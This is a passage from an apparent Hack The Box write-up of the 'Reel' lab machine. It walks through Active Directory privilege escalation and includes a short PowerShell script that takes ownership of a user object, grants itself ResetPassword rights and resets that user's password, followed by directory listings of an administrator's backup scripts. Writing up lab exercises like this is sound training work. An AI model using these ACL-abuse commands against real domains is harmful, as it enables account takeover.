 No errors, seems good! We can check it worked by running `net user claire` and seeing we are indeed a proud member of `BACKUP_ADMINS`. Great! Now what?

### Note

At this point, while I was exploring Claire as a `BACKUP_ADMINS` member, other Hack The Box users were constantly resetting Claire's password to other values, so if I logged out (you will see why in a moment) I couldn't log back in. I ended up leaving Tom's SSH session open and prepared a script to automate the process of resetting Claire's password to the value I wanted so, if someone changed it, I could easily change it back. My `ResetClairePassword.ps1` script was like this:

```powershell
Set-DomainObjectOwner -Identity claire -OwnerIdentity tom
Add-DomainObjectAcl -TargetIdentity claire -PrincipalIdentity tom -Rights ResetPassword
$SecPasswd = ConvertTo-SecureString -String 's0mepassw0rd' -AsPlainText -Force
Set-ADAccountPassword -Reset -NewPassword $SecPasswd -Identity claire 
```

## Backup Admin

Another shameful confession. I wasted a lot of time at this point, and it was pretty frustrating. It required a lot of work reaching to this point, and it seemed it was for nothing. I couldn't access `Administrator` home directory, I couldn't read or write new files compared to "base" Claire, `BACKUP_ADMINS` didn't have any control over other AD objects according to BloodHound... So, was all this work for nothing?!

...Turns out you have to log out and log in again for group changes to take effect. It's something obvious, it's something I knew from Linux (it works the same way), but my tired brain couldn't remember it and that meant a lot of frustation and wasted time wandering around. Lesson learned (even though I thought I already knew this): if you are tired, take a break! Even if you feel the victory so near you could touch it, working with a tired mind almost always doesn't pay off.

Ok, after this dramatic complication, we can continue! Log out, log in again, and the group change takes effect. Now, as Claire, we can access `C:\Users\Administrator`! Finally!! Let's read `root.txt` and claim our well deserved prize:

```
claire@REEL C:\Users\Administrator\Desktop>type root.txt
Access is denied.
```

God dammit!

It couldn't be that easy, right? It seems there are other things in `Administrator`'s Desktop. Let's see what this `Backup Scripts` folder is.

```
claire@REEL C:\Users\Administrator\Desktop\Backup Scripts>dir
  Volume in drive C has no label
  Volume Serial number is CC8A-33E1

  Directory of C:\Users\Administrator\Desktop\Backup Scripts

11/02/2017	09:47 PM	<DIR>		.
11/02/2017	09:47 PM	<DIR>		..
11/03/2017	11:22 PM		    845	backup.ps1
11/02/2017	09:37 PM		    462	backup1.ps1
11/03/2017	11:21 PM		  5,642	BackupScript.ps1
11/02/2017	09:43 PM		  2,791	BackupScript.zip
11/03/2017	11:22 PM		  1,855	folders-system-state.txt
11/03/2017	11:22 PM		    308	test2.ps1.txt
		    6 File(s)		  11,903 bytes
		    2 Dir(s)      15,719,768,064 bytes free
```
